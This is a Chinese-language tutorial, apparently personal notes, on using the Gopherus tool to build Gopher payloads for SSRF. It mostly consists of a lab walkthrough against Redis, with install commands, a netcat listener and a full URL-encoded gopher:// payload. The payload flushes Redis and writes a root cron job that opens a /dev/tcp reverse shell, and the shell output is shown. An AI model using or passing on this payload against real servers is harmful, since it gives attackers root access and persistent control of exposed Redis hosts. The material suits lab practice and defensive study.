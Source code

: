 在 SSRF 漏洞用于生成 Gopher Payload 的工具。

# 1 部署

下载

```shell
┌──(root㉿kali)-[~]
└─# git clone https://github.com/tarunkant/Gopherus.git /root/tools/gopherus && sudo sed -i 's/python2/python3/g' /root/tools/gopherus/install.sh
```

安装

```shell
┌──(root㉿kali)-[~]
└─# cd /root/tools/gopherus/ && bash install.sh && cd
```

# 2 使用

查看帮助

```shell
┌──(root㉿kali)-[~]
└─# gopherus -h
```

# 3 实战

**`redis`** 

安装 `redis` 并运行

```shell
[root@centos ~]# sudo yum install -y redis && sudo redis-server
```

攻击 `redis` 

```shell
┌──(root㉿kali)-[~]
└─# gopherus --exploit redis
```

选择反弹 `shell` 

```
What do you want?? (ReverseShell/PHPShell): ReverseShell
```

填写接收地址

```
Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 192.168.1.30
```

直接回车忽略

```
## For debugging(locally) you can use /var/lib/redis :
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
```

发送 `url` 

```shell
[root@centos ~]# curl gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2467%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.1.30/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

一分钟后接收到 `shell` 

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.1.30] from test.local [192.168.1.50] 33366
sh: 此 shell 中无任务控制
sh-4.2#
```

查看计划任务

```shell
[root@centos ~]# cat /var/spool/cron/root
```

```
*/1 * * * * bash -c "sh -i >& /dev/tcp/192.168.1.30/1234 0>&1"
```

---

参考链接

- [Gopherus](https://github.com/tarunkant/Gopherus)
